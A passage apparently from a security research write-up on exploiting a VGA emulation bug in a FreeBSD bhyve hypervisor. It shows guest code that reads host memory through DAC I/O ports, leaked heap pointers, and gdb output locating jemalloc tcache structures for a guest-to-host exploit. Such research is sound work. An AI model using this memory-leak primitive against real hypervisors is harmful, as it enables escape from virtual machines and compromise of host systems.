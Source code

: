         outb(0, DAC_IDX_RD_PORT);
        for (int i = 0; i < chunk_lw_size; i++) &#123;
                chunk_lw[i] = inb(DAC_DATA_PORT);
        &#125;

        for (int index = 0; index < chunk_lw_size/8; index++) &#123;
                qword = ((uint64_t *)chunk_lw)[index];
                if (qword > 0) &#123;
                        warnx("[%06d] => 0x%lx", index, qword);
                &#125;
        &#125;
. . .

Running the code in the guest leaks a bunch of heap pointers as below:

root@linuxguest:~/setupA/readmemory# ./readmemory
. . .
readmemory: [128483] => 0x801b6f000
readmemory: [128484] => 0x801b6f000
readmemory: [128486] => 0xe4000000b5
readmemory: [128489] => 0x100000000
readmemory: [128491] => 0x801b6fb88
readmemory: [128493] => 0x100000000
readmemory: [128495] => 0x801b701c8
readmemory: [128497] => 0x100000000
readmemory: [128499] => 0x801b70808
readmemory: [128501] => 0x100000000
readmemory: [128503] => 0x801b70e48
. . .

After some analysis, it is realized that this is tcache_s structure used by
jemalloc. Inspecting the memory with gdb provides further details:

(gdb) info threads 
  Id   Target Id         Frame 
* 1    LWP 100185 of process 4891 "mevent" 0x000000080121198a in _kevent ()
* from /lib/libc.so.7
. . .
  12   LWP 100198 of process 4891 "vcpu 0" 0x00000008012297da in ioctl ()
from /lib/libc.so.7

(gdb) thread 12
[Switching to thread 12 (LWP 100198 of process 4891)]
#0  0x00000008012297da in ioctl () from /lib/libc.so.7

(gdb) print *((struct tsd_s *)($fs_base-160))
$21 = &#123;state = tsd_state_nominal, tcache = 0x801b6f000, thread_allocated =
2720, thread_deallocated = 2464, prof_tdata = 0x0, iarena = 0x801912540,
arena = 0x801912540, 
  arenas_tdata = 0x801a1b040, narenas_tdata = 8, arenas_tdata_bypass =
false, tcache_enabled = tcache_enabled_true, __je_quarantine = 0x0,
witnesses = &#123;qlh_first = 0x0&#125;, 
  witness_fork = false&#125;

For any thread, the thread-specific data is located at an address pointed
by $fs_base-160. The tcache address can be found by inspecting 'tsd_s'
structure. The 'vcpu 0' thread's tcache structure is the one that the guest
could access using the VGA bug. This can be confirmed by gdb:
